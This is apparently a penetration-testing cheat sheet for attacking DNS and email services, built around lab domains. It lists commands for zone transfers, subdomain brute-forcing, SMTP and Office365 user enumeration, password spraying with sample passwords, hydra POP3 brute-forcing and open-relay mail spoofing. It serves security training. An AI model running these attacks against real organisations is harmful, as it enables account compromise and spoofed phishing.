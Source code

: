 ### Attacking DNS

|**Command**|**Description**|
|-|-|
| `dig AXFR @ns1.inlanefreight.htb inlanefreight.htb` | Perform an AXFR zone transfer attempt against a specific name server. |
| `fierce --domain zonetransfer.me` | Tools like Fierce can also be used to enumerate all DNS servers of the root domain and scan for a DNS zone transfer |
| `subfinder -d inlanefreight.com -v` | Brute-forcing subdomains. |
| `./subbrute inlanefreight.com -s ./names.txt -r ./resolvers.txt` | An excellent alternative is a tool called Subbrute. This tool allows us to use self-defined resolvers and perform pure DNS brute-forcing attacks during internal penetration tests on hosts that do not have Internet access. |
| `host support.inlanefreight.com` | DNS lookup for the specified subdomain. |

### Attacking Email Services

|**Command**|**Description**|
|-|-|
| `host -t MX microsoft.com` | DNS lookup for mail servers for the specified domain. |
| `dig mx inlanefreight.com \| grep "MX" \| grep -v ";"` | DNS lookup for mail servers for the specified domain. |
| `host -t A mail1.inlanefreight.htb.` | DNS lookup of the IPv4 address for the specified subdomain. |
| `telnet 10.10.110.20 25` | Connect to the SMTP server. |
| `smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7` | SMTP user enumeration using the RCPT command against the specified host. |
| `python3 o365spray.py --validate --domain msplaintext.xyz` | Verify the usage of Office365 for the specified domain. |
| `python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz` | Enumerate existing users using Office365 on the specified domain. |
| `python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz` | Password spraying against a list of users that use Office365 for the specified domain. |
| `hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3` | Brute-forcing the POP3 service. |
| `swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Notification' --body 'Message' --server 10.10.11.213` | Testing the SMTP service for the open-relay vulnerability. |

---

